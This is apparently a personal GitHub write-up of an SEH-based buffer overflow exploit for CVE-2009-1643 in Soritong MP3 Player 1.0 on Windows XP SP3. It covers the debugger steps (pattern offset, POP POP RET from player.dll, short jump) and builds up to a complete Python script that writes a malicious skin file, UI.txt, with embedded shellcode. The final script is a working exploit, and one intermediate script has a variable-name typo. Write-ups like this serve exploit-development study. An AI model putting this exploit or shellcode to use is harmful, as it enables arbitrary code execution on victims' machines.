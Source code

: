 # Soritong MP3 Player 1.0 _ Win XP SP3 - Buffer Overflow


-   cve details: [CVE-2009-1643](https://nvd.nist.gov/vuln/detail/CVE-2009-1643)
-   Target: Soritong MP3 Player 1.0 
-   Platform : windows xp- SP3 - Build 2600
-   Exploit : Python 2.7
-   debugger: Immunity Debugger

When program start ,It read config file for generate SKIN. I check installed folder and find folder Skin. This folder have several another folder. But because I use
default skin, I work on. in this folder are a file named UI.txt. Program save Skin confige in this file. I generate a exploit :

```
exploit="A" * 2000

f=open("UI.txt","w")
f.write(exploit)
f.close()
```

Program crashed. I run this program in Immunity. Programm creashed But EIP don't chabge to 41414141 and program send a exception.

![](https://github.com/Creamy-Chicken-Soup/My-Writeup/blob/main/CVE-2009-1643_BOF/images/1.PNG)

Program have BOF,but not vanilla or classic. Because it send exeption, I check SEH chain. For this: View > SEH Chain

![](https://github.com/Creamy-Chicken-Soup/My-Writeup/blob/main/CVE-2009-1643_BOF/images/2.PNG)

I overwrite SEH. For Exploit this program, I need use SEH technique. For this I need:

-   Overwrite Next SEH address
-   Overwrite Current SEH
-   Add our shellcode
-   Create exeption

I overwrite Next SEH address for jump to my shell code, Overwrite current SEH to jump Next SEH address and final create a exeption. \
First I need exactly Overwrite location. I use Mona. I create pattern and replace it to my shell code. run program,after program crashed go to SEH chain and Copy it
to Mona:

![](https://github.com/Creamy-Chicken-Soup/My-Writeup/blob/main/CVE-2009-1643_BOF/images/3.PNG)

I change Exploit to this: (in 588, 584's to recive next seh and 4 for next seh)

```
#BBBB= next seh
#CCCC= current seh
#DDDD= shellcode

exploit="A" * 584 + "BBBB" + "CCCC" + "DDDD"

f=open("UI.txt","w")
f.write(exploit)
f.close()
```

![](https://github.com/Creamy-Chicken-Soup/My-Writeup/blob/main/CVE-2009-1643_BOF/images/4.PNG)

I successfully overwrite both. Now replace really value. In current SEH ,I can't add address because it execute location and I need use this location for jump
Next Seh. For this I need "POP POP ret". every pop ,jump 4 byte and I need 8 byte. after jump ,I'm in NEXT SEH location and when execute "ret", this address add
to EIP. For "POP POP ret", I need find a location.In exploit BOF by SEH, location isn't active SafeSEH. For check it ,I use Mona. "!mona seh". It create a txt file
and If check it :

![](https://github.com/Creamy-Chicken-Soup/My-Writeup/blob/main/CVE-2009-1643_BOF/images/5.PNG)

So I selected location select this Module .I right click and select this:

![](https://github.com/Creamy-Chicken-Soup/My-Writeup/blob/main/CVE-2009-1643_BOF/images/6.PNG)

and type:

```
pop r32
pop r32
ret
```

And select a location from player.dll and I select "100116fd" because it not null bye.after it , My exploit change to it:

```
exploit="A" * 584 + "CCCC" + "\xfd\x16\x01\x10"  + "DDDD"

f=open("UI.txt","w")
f.write(exploit)
f.close()
```

Now we overwrite current SEH. when execption occur , program recive this location and from it jump to NEXT SEH. Now I go to overwrite NEX seh.
When program recive this location, It run instruction. So I need use assembly (opcode). If go to SEH chain and right click and select "fllow address in stack"
and see stack:

![](https://github.com/Creamy-Chicken-Soup/My-Writeup/blob/main/CVE-2009-1643_BOF/images/7.PNG)

BBBB is Next seh and DDDD is my shellcode. For jump from BBBB to DDDD , I dont use address like "jmp address" because I dont know this address. For solve this
problem, I use "short jmp". It jump by number of the step. like "short jmp 06", it jump 6 byte. opcode for this is "eb". I use "eb 6" and two NOP for create
current byte (8). I use it and shellcode to my exploit:

```
xploit="A" * 584 + "\xeb\x06\x90\x90" + "\xfd\x16\x01\x10"  +("\xbd\x89\x6c\x2d\xbd\xdb\xc5\xd9\x74\x24\xf4\x5b\x2b\xc9\xb1"
"\x31\x31\x6b\x13\x03\x6b\x13\x83\xeb\x75\x8e\xd8\x41\x6d\xcd"
"\x23\xba\x6d\xb2\xaa\x5f\x5c\xf2\xc9\x14\xce\xc2\x9a\x79\xe2"
"\xa9\xcf\x69\x71\xdf\xc7\x9e\x32\x6a\x3e\x90\xc3\xc7\x02\xb3"
"\x47\x1a\x57\x13\x76\xd5\xaa\x52\xbf\x08\x46\x06\x68\x46\xf5"
"\xb7\x1d\x12\xc6\x3c\x6d\xb2\x4e\xa0\x25\xb5\x7f\x77\x3e\xec"
"\x5f\x79\x93\x84\xe9\x61\xf0\xa1\xa0\x1a\xc2\x5e\x33\xcb\x1b"
"\x9e\x98\x32\x94\x6d\xe0\x73\x12\x8e\x97\x8d\x61\x33\xa0\x49"
"\x18\xef\x25\x4a\xba\x64\x9d\xb6\x3b\xa8\x78\x3c\x37\x05\x0e"
"\x1a\x5b\x98\xc3\x10\x67\x11\xe2\xf6\xee\x61\xc1\xd2\xab\x32"
"\x68\x42\x11\x94\x95\x94\xfa\x49\x30\xde\x16\x9d\x49\xbd\x7c"
"\x60\xdf\xbb\x32\x62\xdf\xc3\x62\x0b\xee\x48\xed\x4c\xef\x9a"
"\x4a\xa2\xa5\x87\xfa\x2b\x60\x52\xbf\x31\x93\x88\x83\x4f\x10"
"\x39\x7b\xb4\x08\x48\x7e\xf0\x8e\xa0\xf2\x69\x7b\xc7\xa1\x8a"
"\xae\xa4\x24\x19\x32\x05\xc3\x99\xd1\x59")

f=open("UI.txt","w")
f.write(exploit)
f.close()
```

Now only thing I need, create a exeption. For this I use "A"*500. My exploit finally:

```
exploit="A" * 584 + "\xeb\x06\x90\x90" + "\xfd\x16\x01\x10"  +("\xbd\x89\x6c\x2d\xbd\xdb\xc5\xd9\x74\x24\xf4\x5b\x2b\xc9\xb1"
"\x31\x31\x6b\x13\x03\x6b\x13\x83\xeb\x75\x8e\xd8\x41\x6d\xcd"
"\x23\xba\x6d\xb2\xaa\x5f\x5c\xf2\xc9\x14\xce\xc2\x9a\x79\xe2"
"\xa9\xcf\x69\x71\xdf\xc7\x9e\x32\x6a\x3e\x90\xc3\xc7\x02\xb3"
"\x47\x1a\x57\x13\x76\xd5\xaa\x52\xbf\x08\x46\x06\x68\x46\xf5"
"\xb7\x1d\x12\xc6\x3c\x6d\xb2\x4e\xa0\x25\xb5\x7f\x77\x3e\xec"
"\x5f\x79\x93\x84\xe9\x61\xf0\xa1\xa0\x1a\xc2\x5e\x33\xcb\x1b"
"\x9e\x98\x32\x94\x6d\xe0\x73\x12\x8e\x97\x8d\x61\x33\xa0\x49"
"\x18\xef\x25\x4a\xba\x64\x9d\xb6\x3b\xa8\x78\x3c\x37\x05\x0e"
"\x1a\x5b\x98\xc3\x10\x67\x11\xe2\xf6\xee\x61\xc1\xd2\xab\x32"
"\x68\x42\x11\x94\x95\x94\xfa\x49\x30\xde\x16\x9d\x49\xbd\x7c"
"\x60\xdf\xbb\x32\x62\xdf\xc3\x62\x0b\xee\x48\xed\x4c\xef\x9a"
"\x4a\xa2\xa5\x87\xfa\x2b\x60\x52\xbf\x31\x93\x88\x83\x4f\x10"
"\x39\x7b\xb4\x08\x48\x7e\xf0\x8e\xa0\xf2\x69\x7b\xc7\xa1\x8a"
"\xae\xa4\x24\x19\x32\x05\xc3\x99\xd1\x59")+"A"*500

f=open("UI.txt","w")
f.write(exploit)
f.close()
```

after run :

![](https://github.com/Creamy-Chicken-Soup/My-Writeup/blob/main/CVE-2009-1643_BOF/images/8.PNG)








